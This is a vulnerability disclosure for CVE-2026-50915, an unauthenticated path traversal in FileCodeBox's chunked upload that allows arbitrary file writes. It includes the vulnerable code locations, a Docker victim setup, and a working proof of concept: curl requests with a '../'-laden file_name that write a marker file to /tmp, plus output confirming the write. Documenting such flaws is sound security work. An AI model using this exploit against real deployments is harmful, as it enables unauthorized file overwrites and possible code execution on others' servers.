



# CVE-2026-50915 — Path Traversal in FileCodeBox chunk upload (arbitrary file write)

[CVE ID]
CVE-2026-50915

[PRODUCT]
vastsa/FileCodeBox — open-source self-hosted file sharing / temporary file drop service (Python, FastAPI).

[VERSION]
commit `1cc901d2b9ec8fa074f6c681a889f2ba62c333a8` (upstream HEAD at the time the case was recorded; the then-current `lanol/filecodebox:latest` image era)

[PROBLEM TYPE]
Directory Traversal (`CWE-22`)

## Description

`POST /chunk/upload/init/` takes a fully attacker-controlled `file_name` from the JSON body and passes it to `get_chunk_file_path_name()`, which only prepends `share/data/YYYY/MM/DD/<upload_id>/` — no `sanitize_filename`, no basename, no containment check — and stores the result as the upload session's `save_path`. When the client calls `POST /chunk/upload/complete/{upload_id}`, `SystemFileStorage.merge_chunks()` joins that tainted relative path onto the storage root (`output_path = self.root_path / save_path`) and writes the merged upload bytes there (`aiofiles.open(temp_output, 'wb')` then `rename`). `pathlib` does not neutralize `..` segments, so a `file_name` containing enough `../` escapes the intended `/app/data` root and produces an arbitrary-path write of attacker-controlled bytes under the service account. The chunk endpoints sit behind `share_required_login()`, which only demands an admin Bearer token when `settings.openUpload=0`; the default runtime ships `openUpload=1`, so the whole chain is reachable unauthenticated.

Vulnerable code:
- https://github.com/vastsa/FileCodeBox/blob/1cc901d2b9ec8fa074f6c681a889f2ba62c333a8/apps/base/utils.py#L34-L43 (`get_chunk_file_path_name()` — raw `file_name` embedded into `save_path` at L41-L42)
- https://github.com/vastsa/FileCodeBox/blob/1cc901d2b9ec8fa074f6c681a889f2ba62c333a8/core/storage.py#L198-L223 (`merge_chunks()` — `output_path = self.root_path / save_path` at L198, write at L206, rename at L223)

## Proof of Concept

### Victim setup

The current official `lanol/filecodebox:latest` (v2.7.1) is patched (it runs `sanitize_filename()`/`os.path.basename` on `file_name` and requires first-run setup), so the PoC runs an image built from the pinned affected commit. The backend stage of the image is the unmodified upstream Dockerfile at that commit. The upstream frontend stage clones two theme repos whose committed `.npmrc`/`package-lock.json` resolve against an unreachable internal npm mirror; in the recorded session the themes were therefore pre-built inside a long-running `node:20-alpine` helper container (same clone/install/build commands, retried against `registry.npmjs.org` after deleting `.npmrc`/`package-lock.json`) and `docker commit`-ed into a builder image; the final Dockerfile only swaps the frontend stage `FROM` to that builder image and is line-identical to upstream for the backend stage (`git diff --stat Dockerfile` is in the session log).

```bash
git clone https://github.com/vastsa/FileCodeBox.git && cd FileCodeBox
git checkout 1cc901d2b9ec8fa074f6c681a889f2ba62c333a8
# BEFORE building: delete the committed .npmrc/package-lock.json inside the two
# frontend theme repos referenced by the Dockerfile (they resolve against an
# unreachable internal npm mirror); then the plain upstream build works when
# registry.npmjs.org is reachable:
docker build -t filecodebox:1cc901d .
docker run -d --name scdd_50915_fcb -p 37778:12345 -v scdd_50915_fcb-data:/app/data:rw filecodebox:1cc901d
# wait until http://127.0.0.1:37778/ answers (default config: openUpload=1, no setup wizard)
```

Build fallback actually used for the evidence in this report (BuildKit network resets kept killing the frontend stage; same commands as the upstream Dockerfile, run in a long-lived container, then committed):

```bash
docker run -d --name fcbuilder node:20-alpine sleep infinity
docker exec fcbuilder sh -c 'apk add --no-cache git python3 make g++'
docker exec fcbuilder sh -c 'git clone --depth 1 https://github.com/vastsa/FileCodeBoxFronted.git /build/fronted-2024 && cd /build/fronted-2024 && rm -f .npmrc package-lock.json && npm install && npm run build'
docker exec fcbuilder sh -c 'git clone --depth 1 https://github.com/vastsa/FileCodeBoxFronted2023.git /build/fronted-2023 && cd /build/fronted-2023 && rm -f .npmrc package-lock.json && npm install --legacy-peer-deps && npm run build'
docker commit fcbuilder scdd50915/fcb-frontend-builder:1cc901d
# final Dockerfile: identical to the pinned commit except the first line becomes
#   FROM scdd50915/fcb-frontend-builder:1cc901d AS frontend-builder
# (verified: `git diff --stat Dockerfile` in the session log, [4/8])
```



### Attack steps

No `Authorization` header is sent at any step (default `openUpload=1`). `file_name` uses 16× `../` to cancel the server-side `share/data/YYYY/MM/DD/<upload_id>/` prefix and land in `/tmp`.

```bash
BASE='http://127.0.0.1:37778'
FILE_NAME="$(printf '../%.0s' {1..16})tmp/cve_2026_50915_marker.txt"

# 1) init a chunked upload with the traversal file_name
curl -sS -X POST "$BASE/chunk/upload/init/" -H 'Content-Type: application/json' \
  --data "{\"file_name\":\"${FILE_NAME}\",\"chunk_size\":34,\"file_size\":34,\"file_hash\":\"scdd\"}"
# -> {"code":200,...,"detail":{"upload_id":"16cb401e1b004c198b4ee6d4b67bd666",...}}

# 2) upload the marker bytes as chunk 0
printf '%s' 'CVE-2026-50915_MARKER_b914533dce8b' > chunk.bin
curl -sS -X POST "$BASE/chunk/upload/chunk/16cb401e1b004c198b4ee6d4b67bd666/0" \
  -F 'chunk=@chunk.bin;filename=chunk.bin;type=application/octet-stream'
# -> {"code":200,"message":"ok","detail":{"chunk_hash":"fbcc031a12723d5c50ed56b1278f5fe7c11eaf8ad3b1ad6d1769e3a35562504b"}}

# 3) complete the upload — server merges chunks to the traversed path
curl -sS -X POST "$BASE/chunk/upload/complete/16cb401e1b004c198b4ee6d4b67bd666" \
  -H 'Content-Type: application/json' --data '{"expire_value":1,"expire_style":"day"}'
# -> {"code":200,"message":"ok","detail":{"code":"64995","name":"../../../../../../../../../../../../../../../../tmp/cve_2026_50915_marker.txt"}}
```



### Evidence

The complete response echoes the traversed destination. `docker exec` inside the victim container confirms the marker file exists in `/tmp` — outside the `/app/data` storage root (a `find /app/data` for the same name returns nothing) — owned by the service account (root in the image) with exactly the uploaded 34 bytes:

```
$ docker exec scdd_50915_fcb bash -lc "ls -la /tmp/cve_2026_50915_marker.txt; echo ---; cat /tmp/cve_2026_50915_marker.txt"
-rw-r--r-- 1 root root 34 Sep 28 13:07 /tmp/cve_2026_50915_marker.txt
---
CVE-2026-50915_MARKER_b914533dce8b
```

For contrast, the same init request against the current `lanol/filecodebox:latest` (v2.7.1, digest `sha256:48f54ce4...`) is refused (`{"code":428,...}` first-run setup gate) and its path builder sanitizes `file_name` via `os.path.basename`, confirming the fix in the latest release line (transcript sections [2/8]/[3/8]).



## Impact

A remote, unauthenticated attacker (default runtime `openUpload=1`) can write fully attacker-controlled bytes (the merged upload content) to an arbitrary path writable by the FileCodeBox service account — in the official image that account is root — anywhere reachable via `../` segments from the storage root, i.e. outside the intended `/app/data` directory. Demonstrated primitive: arbitrary file write (verified marker in `/tmp`; the file is not retrievable through the app's download namespace). Direct RCE was not demonstrated in this PoC, but overwriting service-reachable files (application code, templates, Python packages imported on restart) is a plausible escalation path to code execution. If an operator sets `openUpload=0`, the same endpoints require an admin Bearer token, limiting reachability to authenticated admins. Fixed in the current release line (v2.7.x sanitizes `file_name` in the shared `build_file_path()` helper).

## Occurrences

- `apps/base/utils.py:L34` — `get_chunk_file_path_name()` embeds the raw `file_name` into `save_path` (L41-L42), no sanitization
- `core/storage.py:L174` — `save_chunk()` places chunk files under `self.root_path / save_path`
- `core/storage.py:L198` — `merge_chunks()` sink: `output_path = self.root_path / save_path` (write L206, rename L223)
- `apps/base/views.py:L236` — `POST /chunk/upload/init/` behind conditional `Depends(share_required_login)` (also L313 chunk route, L444 complete route)
- `apps/admin/dependencies.py:L102` — `share_required_login()` enforces an admin token only when `openUpload=0`

## References

- [CVE-2026-50915](https://www.cve.org/CVERecord?id=CVE-2026-50915)
- https://github.com/vastsa/FileCodeBox (pinned commit `1cc901d2b9ec8fa074f6c681a889f2ba62c333a8`)
